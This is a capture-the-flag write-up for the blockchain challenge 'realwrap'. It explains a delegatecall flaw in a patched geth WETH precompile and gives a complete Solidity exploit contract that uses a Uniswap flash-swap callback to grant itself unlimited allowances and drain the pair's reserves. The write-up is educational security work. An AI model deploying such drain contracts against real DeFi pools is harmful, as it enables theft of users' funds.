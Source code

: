 ## realwrap

**Authors**: [sam.ninja](https://sam.ninja)

**Tags**: blockchain

> WETH on Ethereum is too cumbersome! I'll show you what is real Wrapped ETH by utilizing precompiled contract, it works like a charm especially when exchanging ETH in a swap pair. And most important, IT IS VERY SECURE!

In this challenge there is a [UniswapV2Pair](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol) contract that allows us to swap between "precompiled" WETH and a simple ECR20 token. The goal is to drain the reserve of the Uniswap contract.

```solidity
import "./@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "./@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./UniswapV2Pair.sol";

contract SimpleToken is ERC20 {
    constructor(uint256 _initialSupply) ERC20("SimpleToken", "SPT") {
        _mint(msg.sender, _initialSupply);
    }
}

contract Factory {
    address public constant WETH = 0x0000000000000000000000000000000000004eA1;
    address public uniswapV2Pair;

    constructor() payable {
        require(msg.value == 1 ether);
        address token = address(new SimpleToken(10 ** 8 * 1 ether));
        uniswapV2Pair = createPair(WETH, token);
        IERC20(WETH).transfer(uniswapV2Pair, 1 ether);
        IERC20(token).transfer(uniswapV2Pair, 100 ether);
        IUniswapV2Pair(uniswapV2Pair).mint(msg.sender);
    }

    // [...]

    function isSolved() public view returns (bool) {
        (uint256 reserve0, uint256 reserve1, ) = IUniswapV2Pair(uniswapV2Pair)
            .getReserves();
        return reserve0 == 0 && reserve1 == 0;
    }
}
```

The Uniswap contract itself is not vulnerable but they have patched `geth` to implement a WETH contract directly in the EVM. In the patch, they introduced a vulnerability in the implementation of DelegateCall.

If the Uniswap contract calls our contract, we can make a `delegatecall` to the WETH contract and the caller passed to the `Run` function will be the Uniswap contract that we want to drain.

```go
func (evm *EVM) DelegateCall(caller ContractRef, addr common.Address, input []byte, gas uint64) (ret []byte, leftOverGas uint64, err error) {
    // [...]

	// Initialise a new contract and make initialise the delegate values
	contract := NewContract(caller, AccountRef(caller.Address()), nil, gas).AsDelegate()
	// It is allowed to call precompiles, even via delegatecall
	if p, isPrecompile := evm.precompile(addr); isPrecompile {
		ret, gas, err = p.Run(evm, contract.Caller(), input, gas, evm.interpreter.readOnly)
	}
    // [...]
}
```

UniswapV2 supports [flash swaps](https://docs.uniswap.org/contracts/v2/guides/smart-contract-integration/using-flash-swaps) so we can use this to make it call a `uniswapV2Call` function in our contract. In this function, we can do a delegatecall to the `WETH.approve` to approve our contract to spend all its WETH.

We cannot do the same for the ERC20 token because it is not a precompiled contract but WETH has a function `transferAndCall` that allows us to call `token.approve` on behalf on the Uniswap contract.

Here is the exploit contract:
```solidity
pragma solidity ^0.8.17;

import "./@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./UniswapV2Pair.sol";

contract Exploit {
    address public constant WETH = 0x0000000000000000000000000000000000004eA1;
    IERC20 public constant WETH_contract = IERC20(WETH);
    IERC20 token;
    UniswapV2Pair uniswap;

    constructor(address uniswapV2Pair) {
        uniswap = UniswapV2Pair(uniswapV2Pair);
        token = IERC20(uniswap.token1());
    }

    function exploit() external payable {
        // Flash swap to make the contract call our uniswapV2Call function
        uniswap.swap(1, 0, address(this), "1");
        
        // We should now be allowed to spend all the WETH and the tokens
        require(WETH_contract.allowance(address(uniswap), address(this)) == type(uint256).max, "exploit failed for WETH");
        require(token.allowance(address(uniswap), address(this)) == type(uint256).max, "exploit failed for Token");

        // Drain the contract
        WETH_contract.transferFrom(address(uniswap), address(this), WETH_contract.balanceOf(address(uniswap)));
        token.transferFrom(address(uniswap), address(this), token.balanceOf(address(uniswap)));

        // Sync to update the reserve variables
        uniswap.sync();
    }

    function uniswapV2Call(
        address sender,
        uint256 amount0,
        uint256 amount1,
        bytes calldata data
    ) external {
        // Payback the flash swap
        WETH_contract.transfer(address(uniswap), 3);

        // Approve our contract to spend all the WETH
        (bool success, bytes memory data) = WETH.delegatecall(abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max));

        // Approve our contract to spend all the tokens
        WETH.delegatecall(abi.encodeWithSignature("transferAndCall(address,uint256,bytes)", address(token), 1, abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max)));
    }
}
```

